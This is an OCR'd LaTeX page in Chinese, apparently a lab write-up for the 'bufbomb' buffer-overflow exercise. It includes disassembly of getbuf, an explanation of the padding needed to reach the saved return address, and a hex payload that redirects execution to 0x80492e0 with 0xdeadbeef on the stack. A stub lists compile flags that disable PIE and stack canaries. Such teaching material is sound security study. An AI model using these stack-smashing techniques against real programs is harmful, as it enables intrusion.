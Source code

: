 \documentclass[a4pper,12pt,onecolumn]{article}
\begin{document}
如以上代码所述，在 \texttt{0x80492d2}处执行完 \texttt{getbuf}，接下来是把返回值（即 \texttt{eax}）压进栈中，然后再把字符串（即 \texttt{getbuf returned \%x\\n}）地址压入栈中。因为我们可以通过 \texttt{getxs}操作整个 \texttt{getbuf}函数的栈，又因为 \texttt{test}函数调用了 \texttt{getbuf}函数————也就是 \texttt{test}在 \texttt{getbuf}逻辑意义上的上面（或者物理意义的下面），我们也可以操纵整个 \texttt{test}的栈。这样第一种利用 \texttt{printf}语句的方法就很容易得出了：跳到 \texttt{0x80492e0}，然后控制栈顶使栈顶为0xdeadbeef。

\begin{lstlisting}[style=DOS]
    08049288 <getbuf>:
    8049288:	55                   	push   ebp
    8049289:	89 e5                	mov    ebp,esp
    804928b:	83 ec 18             	sub    esp,0x18
    804928e:	e8 bb 00 00 00       	call   804934e <__x86.get_pc_thunk.ax>
    8049293:	05 6d 2d 00 00       	add    eax,0x2d6d
    8049298:	83 ec 0c             	sub    esp,0xc
    804929b:	8d 45 e8             	lea    eax,[ebp-0x18]
    804929e:	50                   	push   eax
    804929f:	e8 02 ff ff ff       	call   80491a6 <getxs>
    80492a4:	83 c4 10             	add    esp,0x10
    80492a7:	b8 01 00 00 00       	mov    eax,0x1
    80492ac:	c9                   	leave  
    80492ad:	c3                   	ret
\end{lstlisting}

显然栈抬升了0x18个Bytes（注意栈从高向低生长）。因此我们的Payload需要加上0x18个Bytes的填充。

程序为32位程序；那么Payload还需要加上0x04个Bytes来填充edp。

最后我们需要将存储的eip指针覆盖为我们想要去的地址，也就是 \texttt{0x80492e0}，并且使得覆盖完后的栈顶\footnote{基本的\href{https://www.cnblogs.com/clover-toeic/p/3755401.html}{C语言函数调用栈}知识可以看这篇文章。}为0xdeadbeef。（注意Linux x64是小端序机器）

这是一种Payload：\begin{lstlisting}[style=DOS]00000000 00000000 00000000 00000000 00000000 00000000 00000000 E0920408 EFBEADDE\end{lstlisting}

\subsection{solution2}

\begin{itemize}
    \item elf file:  \texttt{bufbomb}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb -g -no-pie -fno-stack-protector -O0
    \item guard: no PIE, no Canary
\end{itemize}
\end{document}
